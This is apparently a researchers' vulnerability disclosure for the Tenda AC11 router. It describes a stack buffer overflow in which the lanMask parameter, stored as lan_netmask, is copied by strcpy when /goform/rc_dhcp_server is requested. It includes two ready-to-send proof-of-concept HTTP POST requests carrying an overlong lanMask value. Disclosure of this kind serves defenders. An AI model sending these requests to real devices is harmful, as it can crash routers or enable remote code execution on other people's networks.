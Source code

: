 # Tenda Router AC11 Vulnerability

This vulnerability lies in the `/goform/rc_dhcp_server` page which influences the lastest version of Tenda Router AC11. (FYI, lastest version of this product is [AC11_V02.03.01.104_CN](https://www.tenda.com.cn/download/detail-3163.html))

## Vulnerability description

There is a stack buffer overflow vulnerability in function `sub_800C0460` (page `/goform/rc_dhcp_server`).

This function uses `strcpy` to copy the string pointed by `v3` into a stack buffer pointed by `v6`. `v3` is directly retrived from the nvram variable `lan_netmask` without any security check.

![1](1.PNG)

the `lan_netmask` variable can be controlled by attacker by calling the function `sub_800CC270`(page `/goform/start_dhcp_server`) which gets in a parameter called `lanMask` into varialbe `v12`, which can then be used to assign to the `lan_netmask` variable.

![2](2.PNG)

If function `sub_80012558` returns zero,then the nvram variable `lan_netmask` will be set as `v12` 

![3](3.PNG)

In function `sub_80012558`,it will first get the original nvram variable of `lan_netmask` and compare with `v12`. In function `gstrcmp_0`,if two parameters are the same,it will return 0. So if `v12` is different from the original value of nvram variable `lan_netmask`,then the function `sub_80012558` will return 0.

![4](4.PNG)

So by first setting the `lan_netmask` and then requesting the page `/goform/rc_dhcp_server`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.

## POC

```plain
POST /goform/start_dhcp_server HTTP/1.1
Host: 192.168.0.1
Content-Length: 1043
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=wifiBasicCfg&lanMask=111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111&doubleBandUnityEnable=false&wifiTotalEn=true&wifiEn=true&wifiSSID=Tenda_B0E040&wifiSecurityMode=WPAWPA2%2FAES&wifiPwd=Password12345&wifiHideSSID=false&LEDCloseTIme=1270219&wifiEn_5G=true&wifiSSID_5G=Tenda_B0E040_5G&wifiSecurityMode_5G=WPAWPA2%2FAES&wifiPwd_5G=Password12345&wifiHideSSID_5G=false&module2=wifiGuest&guestEn=false&guestEn_5G=false&guestSSID=Tenda_VIP&guestSSID_5G=Tenda_VIP_5G&guestPwd=&guestPwd_5G=&guestValidTime=8&guestShareSpeed=0&module3=wifiPower&wifiPower=high&wifiPower_5G=high&module5=wifiAdvCfg&wifiMode=bgn&wifiChannel=auto&wifiBandwidth=auto&wifiMode_5G=ac&wifiChannel_5G=auto&wifiBandwidth_5G=auto&wifiAntijamEn=false&module6=wifiBeamforming&wifiBeaformingEn=true&module7=wifiWPS&wpsEn=true
```

```plain
POST /goform/rc_dhcp_server HTTP/1.1
Host: 192.168.0.1
Content-Length: 103
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

## Acknowledgment

Credit to [@Yu3H0](https://github.com/Yu3H0), [@1chig0](https://github.com/1chig0), and [@cpegg](https://github.com/cpeggg) from Shanghai Jiao Tong University  and TIANGONG Team of Legendsec at Qi'anxin Group.
